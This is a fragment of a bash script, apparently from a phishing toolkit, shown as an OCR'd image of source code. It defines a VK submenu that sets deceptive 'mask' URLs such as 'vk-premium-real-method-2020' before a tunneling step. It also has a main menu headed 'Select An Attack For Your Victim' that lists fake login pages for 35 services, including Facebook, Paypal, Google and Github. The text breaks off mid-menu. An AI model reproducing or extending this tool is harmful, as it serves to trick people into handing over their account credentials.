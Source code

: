 }

## Vk
site_vk() {
	cat <<- EOF

		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Advanced Voting Poll Login Page

	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		1 | 01)
			website="vk"
			mask='https://vk-premium-real-method-2020'
			tunnel_menu;;
		2 | 02)
			website="vk_poll"
			mask='https://vote-for-the-best-social-media'
			tunnel_menu;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; clear; banner_small; site_vk; };;
	esac
}

## Menu
main_menu() {
	{ clear; banner; echo; }
	cat <<- EOF
		${RED}[${WHITE}::${RED}]${ORANGE} Select An Attack For Your Victim ${RED}[${WHITE}::${RED}]${ORANGE}

		${RED}[${WHITE}01${RED}]${ORANGE} Facebook      ${RED}[${WHITE}11${RED}]${ORANGE} Twitch       ${RED}[${WHITE}21${RED}]${ORANGE} DeviantArt
		${RED}[${WHITE}02${RED}]${ORANGE} Instagram     ${RED}[${WHITE}12${RED}]${ORANGE} Pinterest    ${RED}[${WHITE}22${RED}]${ORANGE} Badoo
		${RED}[${WHITE}03${RED}]${ORANGE} Google        ${RED}[${WHITE}13${RED}]${ORANGE} Snapchat     ${RED}[${WHITE}23${RED}]${ORANGE} Origin
		${RED}[${WHITE}04${RED}]${ORANGE} Microsoft     ${RED}[${WHITE}14${RED}]${ORANGE} Linkedin     ${RED}[${WHITE}24${RED}]${ORANGE} DropBox	
		${RED}[${WHITE}05${RED}]${ORANGE} Netflix       ${RED}[${WHITE}15${RED}]${ORANGE} Ebay         ${RED}[${WHITE}25${RED}]${ORANGE} Yahoo		
		${RED}[${WHITE}06${RED}]${ORANGE} Paypal        ${RED}[${WHITE}16${RED}]${ORANGE} Quora        ${RED}[${WHITE}26${RED}]${ORANGE} Wordpress
		${RED}[${WHITE}07${RED}]${ORANGE} Steam         ${RED}[${WHITE}17${RED}]${ORANGE} Protonmail   ${RED}[${WHITE}27${RED}]${ORANGE} Yandex			
		${RED}[${WHITE}08${RED}]${ORANGE} Twitter       ${RED}[${WHITE}18${RED}]${ORANGE} Spotify      ${RED}[${WHITE}28${RED}]${ORANGE} StackoverFlow
		${RED}[${WHITE}09${RED}]${ORANGE} Playstation   ${RED}[${WHITE}19${RED}]${ORANGE} Reddit       ${RED}[${WHITE}29${RED}]${ORANGE} Vk
		${RED}[${WHITE}10${RED}]${ORANGE} Tiktok        ${RED}[${WHITE}20${RED}]${ORANGE} Adobe        ${RED}[${WHITE}30${RED}]${ORANGE} XBOX
		${RED}[${WHITE}31${RED}]${ORANGE} Mediafire     ${RED}[${WHITE}32${RED}]${ORANGE} Gitlab       ${RED}[${WHITE}33${RED}]${ORANGE} Github
		${RED}[${WHITE}34${RED}]${ORANGE} Discord       ${RED}[${WHITE}35${RED}]${ORANGE} Roblox 
